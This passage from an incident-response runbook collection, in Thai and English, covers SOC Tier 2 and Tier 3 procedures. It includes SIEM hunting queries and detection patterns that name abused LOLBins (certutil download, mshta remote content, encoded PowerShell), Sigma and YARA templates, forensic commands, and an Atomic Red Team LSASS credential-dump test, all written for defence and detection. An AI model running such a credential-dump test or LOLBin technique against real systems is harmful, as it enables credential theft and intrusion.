| แก้เร็วได้ไหม? | จัดการได้ใน < 5 นาทีไหม? (เช่น FP ที่ T1 พลาด) |

### ขั้นที่ 2: จำแนก Investigation

| หมวด | ตัวอย่าง | ระยะเวลาปกติ |
|:---|:---|:---:|
| 🔴 **ถูกบุกรุกจริง** | Malware ทำงาน, ข้อมูลรั่วอยู่ | 1–4 ชม. |
| 🟠 **อาจถูกบุกรุก** | IOC น่าสงสัย, พฤติกรรมผิดปกติ | 2–8 ชม. |
| 🟡 **ละเมิดนโยบาย** | เข้าถึงไม่ได้รับอนุญาต, shadow IT | 1–2 ชม. |
| 🟢 **ตรวจ FP ซับซ้อน** | FP ที่ต้องวิเคราะห์ลึก | 30–60 นาที |

---

## วิธีการสืบสวนเชิงลึก

### Phase 1: ประเมินขอบเขต (15 นาที)

```
□ มีกี่เครื่อง/กี่ user โดน?
□ Asset ที่โดนมี business criticality แค่ไหน?
□ ข้อมูลที่อาจรั่วมีอะไรบ้าง?
□ มี lateral movement เกิดขึ้นไหม?
□ Timeline: เริ่มเกิดเมื่อไร? (หลักฐานแรกสุด)
```

### Phase 2: เก็บหลักฐาน (30–60 นาที)

```mermaid
graph TD
    Start["🔍 เริ่มสืบสวน"] --> SIEM["SIEM: Timeline & Correlation"]
    SIEM --> EDR["EDR: Process tree, ไฟล์, network"]
    EDR --> Network["Network: Firewall, proxy, DNS, packet"]
    Network --> Auth["Auth: Login history, privilege changes"]
    Auth --> TI["TI: IOC enrichment, campaign matching"]
    TI --> Cloud["Cloud: Audit logs, API calls, config"]
    Cloud --> Correlate["🔗 สร้าง Attack Timeline"]
```

#### SIEM Correlation Queries

```spl
# Splunk: Activity ทั้งหมดจากเครื่องที่โดน (48 ชม.)
index=* host="COMPROMISED_HOST" earliest=-48h
| stats count by sourcetype, action | sort -count

# ตรวจ lateral movement
index=auth (EventCode=4624 OR EventCode=4648) Logon_Type=3
src_ip="COMPROMISED_IP" earliest=-7d
| stats count dc(dest) as unique_targets by src_ip, user
| where unique_targets > 3

# Process lineage — อะไร spawn อะไร
index=edr host="HOSTNAME" earliest=-48h
| table _time, parent_process, process_name, command_line, user
| sort _time

# DNS query ไป domain ใหม่/หายาก
index=dns src_ip="HOST_IP" earliest=-7d
| stats count by query | where count < 5

# ปริมาณ data transfer ตามปลายทาง
index=firewall src_ip="HOST_IP" action=allowed earliest=-48h
| stats sum(bytes_out) as MB by dest_ip | eval MB=MB/1048576
| where MB > 100 | sort -MB
```

#### Elastic Queries

```
# Event ทั้งหมดจากเครื่องที่โดน
host.name: "COMPROMISED_HOST" AND @timestamp > "now-48h"

# Process execution ที่น่าสงสัย
event.category: "process" AND host.name: "HOSTNAME"
  AND process.name: ("powershell.exe" OR "certutil.exe" OR "mshta.exe"
    OR "regsvr32.exe" OR "rundll32.exe" OR "bitsadmin.exe")

# Network connection ไป IP ภายนอก
event.category: "network" AND source.ip: "INTERNAL_IP"
  AND NOT destination.ip: (10.0.0.0/8 OR 172.16.0.0/12 OR 192.168.0.0/16)
```

### Phase 3: IOC Deep Enrichment

| IOC | Basic (T1 ทำแล้ว) | Deep (T2 ทำเพิ่ม) |
|:---|:---|:---|
| IP Address | VT reputation | Passive DNS, ASN history, BGP peers |
| Domain | WHOIS lookup | อายุ domain, registrant, ประวัติ SSL cert |
| Hash | VT detection | Sandbox detonation, YARA match, family ID |
| URL | Reputation check | Redirect chain ครบ, content analysis |
| Email | Header check | SPF/DKIM/DMARC analysis, campaign คล้ายกัน |

#### Sandbox Analysis Checklist
```
□ ส่ง hash/URL ไป sandbox (Any.Run, Hybrid Analysis, Joe Sandbox)
□ บันทึก: dropped files, registry changes, network callbacks
□ Extract IOCs เพิ่ม: C2 domains, secondary payloads
□ ตรวจ MITRE ATT&CK techniques ที่สังเกตเห็น
□ เปรียบเทียบกับ malware families ที่รู้จัก
```

---

## กรอบการตัดสินใจ Containment

```mermaid
graph TD
    Confirmed["✅ ยืนยัน Incident"] --> Impact{"ผลกระทบธุรกิจ?"}
    Impact -->|วิกฤต| Immediate["🔴 Contain ทันที"]
    Impact -->|สูง| Quick["🟠 Contain เร็ว (< 1 ชม.)"]
    Impact -->|กลาง| Planned["🟡 Contain ตามแผน"]
    Impact -->|ต่ำ| Monitor["🟢 Monitor + แก้ตามตาราง"]

    Immediate --> IsolateHost["Isolate เครื่องผ่าน EDR"]
    Immediate --> BlockNetwork["Block ที่ firewall/proxy"]
    Immediate --> DisableAccount["Disable account ที่โดน"]
    Immediate --> NotifyIR["แจ้ง IR Lead"]

    Quick --> BlockIOC["Block IOCs (IP/domain/hash)"]
    Quick --> ResetPassword["บังคับ reset password"]
    Quick --> EnhanceMonitor["เพิ่ม monitoring"]

    Planned --> PatchSchedule["แผน patching"]
    Planned --> PolicyUpdate["อัปเดต security policy"]
```

### Containment Actions Quick Reference

| Action | เครื่องมือ | ใช้เมื่อ |
|:---|:---|:---|
| Isolate host | EDR (CrowdStrike/Defender) | Malware, C2, lateral movement |
| Block IP/Domain | Firewall, DNS sinkhole, Proxy | C2, malicious infrastructure |
| Disable account | AD/Azure AD/Okta | Account ถูก compromise |
| Block hash | EDR, Email gateway | ไฟล์อันตราย |
| Reset password | AD/Azure AD | สงสัย credential theft |
| Revoke sessions | Azure AD, Okta, AWS IAM | Token theft, session hijacking |
| Kill process | EDR remote shell | Malware ทำงานอยู่ |
| Quarantine email | Email gateway | Phishing campaign |

### ⚠️ กฎ Containment

```
ควรทำ:
  ✅ บันทึกทุก containment action พร้อม timestamp
  ✅ ขออนุมัติ IR Lead ก่อน isolate production server
  ✅ ยืนยัน backup มีก่อนทำ destructive action
  ✅ แจ้ง business unit ก่อน contain
  ✅ เก็บหลักฐาน — snapshot/image ก่อน wipe

ห้ามทำ:
  ❌ Isolate โดยไม่บันทึก
  ❌ ลบ malware โดยไม่เก็บ sample ก่อน
  ❌ Reboot เครื่องที่โดน (ทำลาย volatile memory)
  ❌ แจ้ง insider ที่ต้องสงสัย
  ❌ ทำ containment จำนวนมากโดยไม่ขออนุมัติ
```

---

## MITRE ATT&CK Mapping

Map แต่ละ investigation กับ ATT&CK techniques:

| Phase | Techniques ที่พบบ่อย | มองหาอะไร |
|:---|:---|:---|
| **Initial Access** | T1566 Phishing, T1078 Valid Accounts | Email IOCs, credential ที่ขโมย |
| **Execution** | T1059 Command/Script, T1204 User Execution | PowerShell, WScript, macro |
| **Persistence** | T1053 Scheduled Task, T1547 Boot Autostart | Registry, services, crontab |
| **Privilege Escalation** | T1068 Exploitation, T1548 Abuse Elevation | UAC bypass, sudo abuse |
| **Defense Evasion** | T1070 Indicator Removal, T1027 Obfuscation | ล้าง log, encoding |
| **Credential Access** | T1003 OS Credential Dumping | Mimikatz, LSASS access |
| **Lateral Movement** | T1021 Remote Services, T1570 Lateral Transfer | RDP, PsExec, WMI |
| **Exfiltration** | T1041 Over C2, T1567 Over Web Service | Cloud upload, DNS tunnel |

---

## Template บันทึก Incident

```markdown
## สรุป Incident
- Ticket ID: [INCT-XXXX]
- Severity: [P1/P2/P3/P4]
- สถานะ: [สืบสวน / Contained / กำจัดแล้ว / แก้ไขแล้ว]
- Analyst: [ชื่อ]
- เวลาเริ่ม: [alert แรกเมื่อไร]
- เวลาตรวจพบ: [SOC รู้เมื่อไร]
- เวลา Contain: [contain เมื่อไร]

## เรื่องราวการโจมตี
[สรุป 1 ย่อหน้า: ใครโจมตีอะไร อย่างไร เมื่อไร ผลกระทบ]

## ระบบที่ได้รับผลกระทบ
| Host | IP | บทบาท | สถานะ |
|:---|:---|:---|:---|
| [hostname] | [IP] | [server/workstation] | [isolated/clean/compromised] |

## สรุป IOC
| ประเภท | ค่า | แหล่ง | Action |
|:---|:---|:---|:---|
| IP | x.x.x.x | VT (45/90) | Block ที่ firewall |
| Hash | abc123 | Sandbox | Block ใน EDR |
| Domain | evil.com | TI feed | DNS sinkhole |

## MITRE ATT&CK
- Initial Access: T1566.001 (Spearphishing Attachment)
- Execution: T1059.001 (PowerShell)
- Persistence: T1053.005 (Scheduled Task)

## Timeline
| เวลา | เหตุการณ์ | แหล่ง |
|:---|:---|:---|
| 09:15 | รับ phishing email | Email gateway |
| 09:22 | User คลิก link | Proxy log |
| 09:23 | Malware ดาวน์โหลด | EDR |
| 09:30 | C2 callback | Firewall |
| 09:35 | T1 escalate T2 | Ticket |
| 09:50 | Isolate เครื่อง | EDR |

## Containment Actions
1. [action + เวลา + ใครอนุมัติ]

## Root Cause
[วิเคราะห์สาเหตุโดยย่อ]

## ข้อเสนอแนะ
1. [ปรับ alert tuning]
2. [ปรับปรุง process]
3. [ช่องโหว่ security control]
```

---

## การ Mentor T1 Analyst

เป็นส่วนหนึ่งของบทบาท — พัฒนาทักษะ T1:

| สถานการณ์ | สิ่งที่ควรทำ |
|:---|:---|
| T1 escalate ผิด | อธิบายเหตุผล, ชี้สิ่งที่พลาด, ไม่ลงโทษ |
| T1 พลาด true positive | Walk-through ตัวบ่งชี้ที่พลาดด้วยกัน |
| FP ซ้ำๆ | ช่วย T1 เขียน tuning request, review ด้วยกัน |
| T1 ถามคำถามดี | ชม, แชร์ resource, ให้โอกาสท้าทาย |
| T1 ใหม่ onboard | จัด shadow sessions, review 10 ticket แรก |

---

## ตัวชี้วัดประสิทธิภาพ T2

| Metric | เป้าหมาย | หมายเหตุ |
|:---|:---:|:---|
| Investigation/วัน | 5–8 | แตกต่างตามความซับซ้อน |
| Mean Time to Investigate | ≤ 2 ชม. | เริ่ม-ถึง-ตัดสินใจ |
| Mean Time to Contain | ≤ 4 ชม. | ตัดสินใจ-ถึง-contain |
| Incident Detection Accuracy | > 95% | ตรวจสอบหลัง review |
| IOC Feed Contribution | ≥ 5/สัปดาห์ | แชร์ findings กับ TI team |
| ชม. Mentor T1 | ≥ 2/สัปดาห์ | ลงทุนพัฒนาทีม |
| ATT&CK Coverage | ติดตามรายเดือน | Dashboard metrics |

---

## Shift Handoff — T2

```
=== T2 Shift Handoff: [วันที่] [กะ] ===
Analyst: [ชื่อ]

📊 Investigation:
  ✅ เสร็จ: [N] investigations
  ⏳ กำลังดำเนินการ: [N] — รายละเอียด:
    - [INCT-XXX] — [สถานะ, ขั้นตอนถัดไป]
  
🔴 Incident ที่ active:
  - [INCT-XXX] — [severity, สถานะ, ใครรับผิดชอบ]

🛡️ Containment Actions ที่ทำ:
  - [รายการ blocks, isolations, หรือ resets ที่ทำกะนี้]

📝 Feedback T1:
  - [บันทึก mentoring, ข้อผิดพลาดที่พบบ่อยวันนี้]

⚠️ ระวัง:
  - [follow-up ที่รอ, ผล pending, TI advisories]
```

---

## รายชื่อติดต่อ

| บทบาท | ติดต่อเมื่อ |
|:---|:---|
| T1 Analyst | ส่ง escalation กลับ, ให้คำแนะนำ |
| T3 / Threat Hunter | Advanced threats, APT, malware RE |
| IR Lead | P1 incidents, อนุมัติ containment |
| SOC Manager | ต้องการ resource, ปัญหา process |
| IT Ops / SysAdmin | เข้าระบบ, ปัญหา log collection |
| Network Team | Firewall rules, packet captures |
| Cloud Team | Cloud IAM, API investigation |
| Legal / Compliance | Data breach, แจ้ง PDPA |

---

## เอกสารที่เกี่ยวข้อง

- [กรอบ IR](../Framework.th.md)
- [ตารางความรุนแรง](../Severity_Matrix.th.md)
- [ตาราง Escalation](../Escalation_Matrix.th.md)
- [Tier 1 Runbook](Tier1_Runbook.th.md)
- [การสืบสวน Forensic](../Forensic_Investigation.th.md)
- [การเก็บหลักฐาน](../Evidence_Collection.th.md)
- [Playbook ทั้งหมด (PB-01 ถึง PB-50)](../Playbooks/Phishing.th.md)


---

## File: 05_Incident_Response/Runbooks/Tier3_Runbook.en.md

# SOC Tier 3 Analyst Runbook

> **Document ID:** RB-T3-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-16  
> **Owner:** SOC Manager  
> **Audience:** Tier 3 / Threat Hunters / Senior IR Analysts

---

## Role Overview

As a Tier 3 analyst, you are the **most senior technical resource** in the SOC. You proactively hunt for threats, reverse-engineer malware, lead complex incident response, develop detection content, and drive strategic improvements to security posture.

```mermaid
graph LR
    Proactive["🎯 Proactive Hunting"] --> Discover["💡 Discover Threats"]
    Reactive["🔴 T2 Escalation"] --> Analyze["🔬 Advanced Analysis"]
    Discover --> Intel["📊 Produce Intelligence"]
    Analyze --> Intel
    Intel --> Detection["🛡️ Create New Detections"]
    Detection --> Improve["📈 Improve SOC Capability"]
    Improve --> Proactive
```

---

## 🆕 Tier 3 Prerequisites

```
□ Expert-level SIEM (custom detection rules, advanced SPL/KQL)
□ EDR advanced hunting / threat hunting modules
□ Malware analysis environment (RE lab, disassembler, debugger)
□ Forensic toolkit (KAPE, Volatility, Autopsy, FTK)
□ Network forensics (Wireshark deep analysis, Zeek scripting)
□ Threat intelligence platform — contributor access
□ Detection engineering pipeline (Sigma → SIEM rule deployment)
□ Purple team tooling (Atomic Red Team, MITRE Caldera)
□ Programming: Python, PowerShell, Bash (automating analysis)
□ Minimum 2 years Tier 2 experience + relevant certifications
```

---

## Daily Responsibilities

Unlike T1/T2 with fixed shift routines, T3 work is project-based:

| Time Allocation | Activity | Frequency |
|:---|:---|:---|
| 30% | **Threat Hunting** — Hypothesis-driven hunts | Ongoing |
| 25% | **Advanced IR** — Complex incident investigation | As needed |
| 20% | **Detection Engineering** — New Sigma/YARA rules | Weekly |
| 15% | **Research & Intelligence** — Threat landscape, TTP analysis | Daily |
| 10% | **Mentoring & Knowledge Share** — T1/T2 training, postmortems | Weekly |

---

## Threat Hunting Framework

### Hypothesis-Driven Hunting Process

```mermaid
graph TD
    Hypothesis["💭 Form Hypothesis"] --> Data["📊 Identify Data Sources"]
    Data --> Hunt["🔍 Execute Hunt"]
    Hunt --> Analyze["🔬 Analyze Results"]
    Analyze --> Found{Threat Found?}
    Found -->|Yes| Incident["🚨 Create Incident"]
    Found -->|No| Improve["📝 Detection Gap Analysis"]
    Incident --> IOC["Extract IOCs + TTPs"]
    IOC --> Detection["🛡️ Create New Detection Rule"]
    Improve --> Detection
    Detection --> Document["📋 Document Hunt Results"]
    Document --> Hypothesis
```

### Hypothesis Templates

| Source | Hypothesis Example |
|:---|:---|
| **TI Report** | "APT group X uses DLL side-loading via legit app Y — are we vulnerable?" |
| **MITRE Gap** | "We have no detection for T1218.011 (Rundll32) — is it being abused?" |
| **Industry Alert** | "Healthcare sector seeing Akira ransomware — do we have precursors?" |
| **Anomaly** | "DNS query volume to .tk domains spiked 300% — what's driving it?" |
| **Post-Incident** | "Last incident used scheduled tasks for persistence — are there others?" |

### Hunt Execution Queries

#### Living-Off-the-Land (LOLBin) Detection

```spl
# PowerShell with encoded commands
index=edr process_name="powershell.exe"
  (command_line="*-enc*" OR command_line="*-EncodedCommand*"
   OR command_line="*FromBase64*" OR command_line="*[Convert]*")
| stats count by host, user, command_line | sort -count

# Certutil abuse (download/decode)
index=edr process_name="certutil.exe"
  (command_line="*-urlcache*" OR command_line="*-decode*"
   OR command_line="*-decodehex*")
| stats count by host, user, command_line

# Rundll32 executing unusual DLLs
index=edr process_name="rundll32.exe"
  NOT command_line="*shell32*" NOT command_line="*setupapi*"
  NOT command_line="*ieframe*" NOT command_line="*shdocvw*"
| stats count by host, command_line | where count < 3

# MSHTA executing remote content
index=edr process_name="mshta.exe"
  (command_line="*http*" OR command_line="*javascript*"
   OR command_line="*vbscript*")
| stats count by host, user, command_line
```

#### Persistence Hunting

```spl
# New services installed
index=wineventlog EventCode=7045
| stats count by host, Service_Name, Service_File_Name
| where count=1 | sort -_time

# Scheduled tasks created
index=wineventlog EventCode=4698
| stats count by host, user, TaskName | where count=1

# Registry run key modifications
index=edr registry_path="*\\Run\\*" OR registry_path="*\\RunOnce\\*"
| stats count by host, registry_path, registry_value
```

#### C2 & Beaconing Detection

```spl
# Beaconing detection (fixed interval connections)
index=firewall direction=outbound
| bin _time span=60s
| stats count by dest_ip, _time
| streamstats count as beacon_count range(_time) as time_range by dest_ip
| where beacon_count > 100 AND time_range > 3600
| stats avg(count) stdev(count) by dest_ip
| eval jitter=stdev/avg*100
| where jitter < 15

# DNS tunneling (high-entropy subdomains)
index=dns query_type=TXT OR query_length > 50
| eval subdomain=replace(query, "\.[^.]+\.[^.]+$", "")
| eval entropy=len(subdomain)
| where entropy > 30
| stats count by query | sort -count

# Long connections (potential C2)
index=firewall duration > 28800 direction=outbound
  NOT dest_port IN (443, 80, 53)
| stats count by src_ip, dest_ip, dest_port, duration
```

---

## Malware Analysis

### Triage Analysis Workflow (30 min)

```
Step 1: Static Analysis
  □ File metadata (PE headers, strings, imports)
  □ Hashing (MD5, SHA-256, imphash, ssdeep)
  □ VirusTotal / MalwareBazaar family identification
  □ YARA signature matching
  □ Packer/obfuscation detection

Step 2: Dynamic Analysis (Sandbox)
  □ Execute in isolated sandbox environment
  □ Record: processes spawned, files created/modified
  □ Record: registry modifications
  □ Record: network connections (IPs, domains, protocols)
  □ Record: API calls of interest

Step 3: Behavioral Classification
  □ Map behaviors to MITRE ATT&CK techniques
  □ Identify malware family (RAT, loader, stealer, ransomware)
  □ Extract C2 configuration if possible
  □ Extract all IOCs for blocking/detection
```

### Key Static Analysis Tools

| Tool | Purpose |
|:---|:---|
| PEStudio | PE file analysis, imports, strings |
| FLOSS | Advanced string extraction (deobfuscation) |
| ssdeep / imphash | Fuzzy hashing, similarity matching |
| Detect It Easy (DIE) | Packer/compiler identification |
| Capa | Capability identification (MITRE mapped) |
| Ghidra / IDA | Disassembly and decompilation |

### Key Dynamic Analysis Tools

| Tool | Purpose |
|:---|:---|
| Any.Run | Interactive sandbox |
| Hybrid Analysis | Automated sandbox |
| Process Monitor | Windows API monitoring |
| Wireshark | Network capture during execution |
| Regshot | Registry change comparison |
| Volatility | Memory forensics |

---

## Detection Engineering

### Sigma Rule Development Workflow

```mermaid
graph LR
    TTP["🎯 Identify TTP"] --> Research["📚 Research"]
    Research --> Write["✍️ Write Sigma Rule"]
    Write --> Test["🧪 Test in Lab"]
    Test --> Tune["🔧 Tune FP Rate"]
    Tune --> Deploy["🚀 Deploy to SIEM"]
    Deploy --> Monitor["📊 Monitor Performance"]
    Monitor --> Refine["🔄 Refine"]
    Refine --> TTP
```

### Sigma Rule Template

```yaml
title: [Descriptive Title]
id: [UUID]
status: experimental
description: >
    Detects [what this detects] which is indicative of [threat].
references:
    - https://attack.mitre.org/techniques/TXXXX/
author: [Your Name]
date: 2026/02/16
modified: 2026/02/16
tags:
    - attack.execution
    - attack.tXXXX.XXX
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        ParentImage|endswith: '\explorer.exe'
        Image|endswith: '\powershell.exe'
        CommandLine|contains:
            - '-enc'
            - '-EncodedCommand'
    condition: selection
falsepositives:
    - Legitimate admin scripts
level: high
```

### YARA Rule Template

```yara
rule Malware_Family_Variant : malware
{
    meta:
        author      = "[Your Name]"
        date        = "2026-02-16"
        description = "Detects [malware family] variant"
        reference   = "[URL]"
        hash        = "[sample hash]"

    strings:
        $s1 = "suspicious_string_1" ascii wide
        $s2 = { 4D 5A 90 00 }  // PE header
        $s3 = /https?:\/\/[a-z0-9]+\.(tk|ml|ga)\// nocase

    condition:
        uint16(0) == 0x5A4D and
        filesize < 5MB and
        2 of ($s*)
}
```

---

## Forensic Investigation

### Memory Forensics (Volatility 3)

```bash
# List processes
python3 vol.py -f memory.dmp windows.pslist

# Detect injected code
python3 vol.py -f memory.dmp windows.malfind

# Network connections at time of capture
python3 vol.py -f memory.dmp windows.netscan

# Command history
python3 vol.py -f memory.dmp windows.cmdline

# DLL injection detection
python3 vol.py -f memory.dmp windows.dlllist --pid [PID]

# Registry hive extraction
python3 vol.py -f memory.dmp windows.registry.hivelist
```

### Disk Forensics

```bash
# Timeline generation with KAPE
KAPE.exe --tsource C: --target !SANS_Triage --tdest E:\Evidence

# Super timeline with plaso
log2timeline.py timeline.plaso /path/to/image
psort.py -o l2tcsv timeline.plaso -w timeline.csv

# Parse Windows event logs
python3 hayabusa -d C:\Windows\System32\winevt\Logs -o results.csv
```

---

## Purple Team & Adversary Simulation

### Atomic Red Team Testing

```powershell
# Install
Install-Module -Name invoke-atomicredteam

# Run specific technique test
Invoke-AtomicTest T1053.005 -TestNumbers 1  # Scheduled Task
Invoke-AtomicTest T1059.001 -TestNumbers 1  # PowerShell
Invoke-AtomicTest T1003.001 -TestNumbers 1  # LSASS Dump

# Run all tests for a tactic
Invoke-AtomicTest T1053 -ShowDetailsBrief
```

### Detection Validation Matrix

| Technique | Test Method | Expected Detection | Result |
|:---|:---|:---|:---|
| T1059.001 | Encoded PowerShell | Sigma rule `proc_powershell_encoded` | ✅/❌ |
| T1003.001 | Mimikatz/LSASS | EDR + SIEM alert | ✅/❌ |
| T1053.005 | Scheduled Task | Event 4698 rule | ✅/❌ |
| T1021.001 | RDP brute force | SIEM multi-fail rule | ✅/❌ |

---

## Threat Intelligence Production

### Intelligence Report Template

```markdown
## TI Report: [Campaign/Threat Name]
Date: [YYYY-MM-DD]
TLP: [WHITE/GREEN/AMBER/RED]
Confidence: [High/Medium/Low]

### Executive Summary
[2-3 sentences for management]

### Technical Analysis
- Attack vector: [how it arrives]
- Malware family: [name, capabilities]
- C2 infrastructure: [domains, IPs, protocols]
- MITRE ATT&CK chain: [technique IDs]

### IOCs
| Type | Value | Context |
|:---|:---|:---|
| [IP/Hash/Domain] | [value] | [what it's used for] |

### Recommended Actions
1. [Blocking action]
2. [Detection rule to create]
3. [Hunt query to run]

### References
- [Source URLs]
```

---

## T3 Performance Metrics

| Metric | Target | Notes |
|:---|:---:|:---|
| Threat hunts completed/month | ≥ 4 | 1 per week minimum |
| New detection rules/month | ≥ 8 | Sigma + YARA combined |
| Detection rule FP rate | < 5% | After 30-day tuning period |
| Malware samples analyzed/month | ≥ 10 | Triage + deep analysis |
| TI reports produced/month | ≥ 2 | Actionable intelligence |
| Purple team exercises/quarter | ≥ 2 | Validate detection gaps |
| Knowledge sharing sessions/month | ≥ 2 | Training T1/T2 |
| Mean Time to detect new TTP | ≤ 48 hours | From TI alert to detection rule |

---

## Key Contacts

| Role | When to Contact |
|:---|:---|
| T2 Analyst | Complex case assistance, investigation guidance |
| IR Lead | Major incident coordination |
| SOC Manager | Strategic priorities, resource planning |
| CISO | Threat landscape briefings, risk decisions |
| Red Team | Purple team exercises, adversary simulation |
| Vendor TAM | Product-specific threat intel, beta features |
| External TI | ISAC sharing, vendor intelligence feeds |
| Law Enforcement | Attribution, takedown coordination |

---

## Related Documents

- [IR Framework](../Framework.en.md)
- [Forensic Investigation](../Forensic_Investigation.en.md)
- [Evidence Collection](../Evidence_Collection.en.md)
- [Threat Hunting Playbook](../Threat_Hunting_Playbook.en.md)
- [Tier 1 Runbook](Tier1_Runbook.en.md)
- [Tier 2 Runbook](Tier2_Runbook.en.md)
- [All Playbooks (PB-01 to PB-50)](../Playbooks/Phishing.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)


---

## File: 05_Incident_Response/Runbooks/Tier3_Runbook.th.md

# คู่มือปฏิบัติงาน SOC Tier 3

> **รหัสเอกสาร:** RB-T3-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-16  
> **เจ้าของ:** SOC Manager  
> **กลุ่มเป้าหมาย:** Tier 3 / Threat Hunter / Senior IR Analyst

---

## ภาพรวมบทบาท

ในฐานะ Tier 3 analyst คุณคือ **ทรัพยากรเทคนิคอาวุโสที่สุด** ของ SOC คุณล่าภัยคุกคามเชิงรุก วิเคราะห์ malware ย้อนกลับ นำทีม incident response ที่ซับซ้อน พัฒนา detection content และขับเคลื่อนการปรับปรุง security posture เชิงกลยุทธ์

```mermaid
graph LR
    Proactive["🎯 ล่าเชิงรุก"] --> Discover["💡 ค้นพบภัยคุกคาม"]
    Reactive["🔴 T2 Escalation"] --> Analyze["🔬 วิเคราะห์ขั้นสูง"]
    Discover --> Intel["📊 สร้าง Intelligence"]
    Analyze --> Intel
    Intel --> Detection["🛡️ สร้าง Detection ใหม่"]
    Detection --> Improve["📈 ยกระดับ SOC"]
    Improve --> Proactive
```

---

## 🆕 สิ่งที่ Tier 3 ต้องมี

```
□ SIEM ระดับ expert (custom detection rules, advanced SPL/KQL)
□ EDR advanced hunting / threat hunting modules
□ สภาพแวดล้อม malware analysis (RE lab, disassembler, debugger)
□ ชุดเครื่องมือ forensic (KAPE, Volatility, Autopsy, FTK)
□ Network forensics (Wireshark deep analysis, Zeek scripting)
□ Threat intelligence platform — contributor access
□ Detection engineering pipeline (Sigma → deploy SIEM rule)
□ เครื่องมือ Purple team (Atomic Red Team, MITRE Caldera)
□ Programming: Python, PowerShell, Bash (สำหรับ automate)
□ ประสบการณ์ Tier 2 อย่างน้อย 2 ปี + certifications ที่เกี่ยวข้อง
```

---

## ความรับผิดชอบประจำวัน

ต่างจาก T1/T2 ที่มีรูปแบบกะตายตัว — งาน T3 เป็นแบบ project:

| สัดส่วนเวลา | กิจกรรม | ความถี่ |
|:---|:---|:---|
| 30% | **Threat Hunting** — ล่าตาม hypothesis | ต่อเนื่อง |
| 25% | **Advanced IR** — สืบสวน incident ซับซ้อน | ตามเหตุการณ์ |
| 20% | **Detection Engineering** — Sigma/YARA rules ใหม่ | รายสัปดาห์ |
| 15% | **Research & Intelligence** — วิเคราะห์ TTP, threat landscape | ทุกวัน |
| 10% | **Mentor & Knowledge Share** — สอน T1/T2, postmortem | รายสัปดาห์ |

---

## Threat Hunting Framework

### Hypothesis-Driven Hunting Process

```mermaid
graph TD
    Hypothesis["💭 ตั้ง Hypothesis"] --> Data["📊 ระบุ Data Sources"]
    Data --> Hunt["🔍 ดำเนินการ Hunt"]
    Hunt --> Analyze["🔬 วิเคราะห์ผลลัพธ์"]
    Analyze --> Found{พบภัยคุกคาม?}
    Found -->|ใช่| Incident["🚨 สร้าง Incident"]
    Found -->|ไม่| Improve["📝 Detection Gap Analysis"]
    Incident --> IOC["Extract IOCs + TTPs"]
    IOC --> Detection["🛡️ สร้าง Detection Rule ใหม่"]
    Improve --> Detection
    Detection --> Document["📋 บันทึกผล Hunt"]
    Document --> Hypothesis
```

### ตัวอย่าง Hypothesis

| แหล่ง | ตัวอย่าง Hypothesis |
|:---|:---|
| **TI Report** | "กลุ่ม APT X ใช้ DLL side-loading ผ่านแอป Y — เราโดนไหม?" |
| **MITRE Gap** | "เราไม่มี detection สำหรับ T1218.011 (Rundll32) — มีคนใช้ไหม?" |
| **Industry Alert** | "สาย Healthcare เจอ Akira ransomware — เรามี precursors ไหม?" |
| **Anomaly** | "DNS query ไป .tk domains เพิ่ม 300% — อะไรทำ?" |
| **Post-Incident** | "Incident ล่าสุดใช้ scheduled tasks — มีตัวอื่นไหม?" |

### Hunt Queries

#### Living-Off-the-Land (LOLBin) Detection

```spl
# PowerShell encoded commands
index=edr process_name="powershell.exe"
  (command_line="*-enc*" OR command_line="*-EncodedCommand*"
   OR command_line="*FromBase64*" OR command_line="*[Convert]*")
| stats count by host, user, command_line | sort -count

# Certutil abuse (download/decode)
index=edr process_name="certutil.exe"
  (command_line="*-urlcache*" OR command_line="*-decode*"
   OR command_line="*-decodehex*")
| stats count by host, user, command_line

# Rundll32 เรียก DLL ผิดปกติ
index=edr process_name="rundll32.exe"
  NOT command_line="*shell32*" NOT command_line="*setupapi*"
  NOT command_line="*ieframe*" NOT command_line="*shdocvw*"
| stats count by host, command_line | where count < 3

# MSHTA เรียก remote content
index=edr process_name="mshta.exe"
  (command_line="*http*" OR command_line="*javascript*"
   OR command_line="*vbscript*")
| stats count by host, user, command_line
```

#### Persistence Hunting

```spl
# Service ใหม่ที่ติดตั้ง
index=wineventlog EventCode=7045
| stats count by host, Service_Name, Service_File_Name
| where count=1 | sort -_time

# Scheduled task ที่สร้างใหม่
index=wineventlog EventCode=4698
| stats count by host, user, TaskName | where count=1

# Registry run key ที่แก้ไข
index=edr registry_path="*\\Run\\*" OR registry_path="*\\RunOnce\\*"
| stats count by host, registry_path, registry_value
```

#### C2 & Beaconing Detection

```spl
# ตรวจ beaconing (เชื่อมต่อ interval คงที่)
index=firewall direction=outbound
| bin _time span=60s
| stats count by dest_ip, _time
| streamstats count as beacon_count range(_time) as time_range by dest_ip
| where beacon_count > 100 AND time_range > 3600
| stats avg(count) stdev(count) by dest_ip
| eval jitter=stdev/avg*100
| where jitter < 15

# DNS tunneling (subdomain entropy สูง)
index=dns query_type=TXT OR query_length > 50
| eval subdomain=replace(query, "\.[^.]+\.[^.]+$", "")
| eval entropy=len(subdomain)
| where entropy > 30
| stats count by query | sort -count

# Long connections (อาจเป็น C2)
index=firewall duration > 28800 direction=outbound
  NOT dest_port IN (443, 80, 53)
| stats count by src_ip, dest_ip, dest_port, duration
```

---

## Malware Analysis

### ขั้นตอน Triage Analysis (30 นาที)

```
ขั้นที่ 1: Static Analysis
  □ File metadata (PE headers, strings, imports)
  □ Hashing (MD5, SHA-256, imphash, ssdeep)
  □ VirusTotal / MalwareBazaar — ระบุ family
  □ YARA signature matching
  □ ตรวจ packer/obfuscation

ขั้นที่ 2: Dynamic Analysis (Sandbox)
  □ Execute ใน sandbox ที่แยกออก
  □ บันทึก: process ที่ spawn, ไฟล์ที่สร้าง/แก้ไข
  □ บันทึก: registry ที่แก้
  □ บันทึก: network connections (IPs, domains, protocols)
  □ บันทึก: API calls ที่น่าสนใจ

ขั้นที่ 3: Behavioral Classification
  □ Map behaviors → MITRE ATT&CK techniques
  □ ระบุ malware family (RAT, loader, stealer, ransomware)
  □ Extract C2 config ถ้าทำได้
  □ Extract IOCs ทั้งหมดสำหรับ block/detect
```

### เครื่องมือ Static Analysis

| เครื่องมือ | ใช้ทำอะไร |
|:---|:---|
| PEStudio | วิเคราะห์ PE file, imports, strings |
